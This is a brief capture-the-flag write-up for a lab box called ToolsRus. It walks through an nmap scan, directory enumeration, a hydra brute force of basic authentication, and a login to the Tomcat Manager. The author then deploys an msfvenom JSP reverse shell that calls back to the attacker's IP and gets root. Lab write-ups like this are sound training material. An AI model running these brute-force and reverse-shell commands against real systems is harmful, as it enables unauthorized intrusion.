 # ToolsRus

### ToysRus
Nmap scan shows ports 22, 80,1234 and 8009 open.
    
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 58:b3:31:6c:9e:9c:b3:ad:03:7d:c9:f7:73:61:7c:9e (RSA)
    |   256 8b:74:b7:00:25:5d:c4:1d:46:ce:54:7d:ef:ec:d6:60 (ECDSA)
    |_  256 49:a8:10:e7:a9:e7:a0:21:b0:1c:47:db:51:4e:a1:7d (ED25519)
    80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
    |_http-favicon: Apache Tomcat
    |_http-title: Apache Tomcat/7.0.88
    |_http-server-header: Apache-Coyote/1.1
    8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
    |_ajp-methods: Failed to get a valid response for the OPTION request
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Port 80 seems empty:<br />
![image](https://github.com/user-attachments/assets/a411d63e-7e58-4660-b740-60d1bdb08089)<br />
Directory enumeration finds `/protected` which I can't access since it's protected by **basic authentication**, and `/guidelines`, with the following content: <br />
![image](https://github.com/user-attachments/assets/898c4019-2bb5-4040-b856-76b463e7c0bf)<br />
So I try to bruteforce login on the basic authentication on `/protected` with `hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.117.89 http-get /protected`. And it finds me the credentials to log in. <br />
![image](https://github.com/user-attachments/assets/aef2ab86-64e7-4f32-b98f-163e8bce4543)<br />
Port 1234 is a default tomcat webpage. I can log into `Manager App` with the previously found credentials. From here I can upload a reverse shell in .war. I'll use msfvenom: `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.85.53 LPORT=9001 -f war > reverse_shell.war`<br />
After the deployment, there's the reverse shell file: <br />
![image](https://github.com/user-attachments/assets/09cf2443-ad30-458a-a04d-f900fec5c8a8)<br />
Now I just open a netcat listener on port 9001 and click on the revese shell. This gives me a shell as root. 
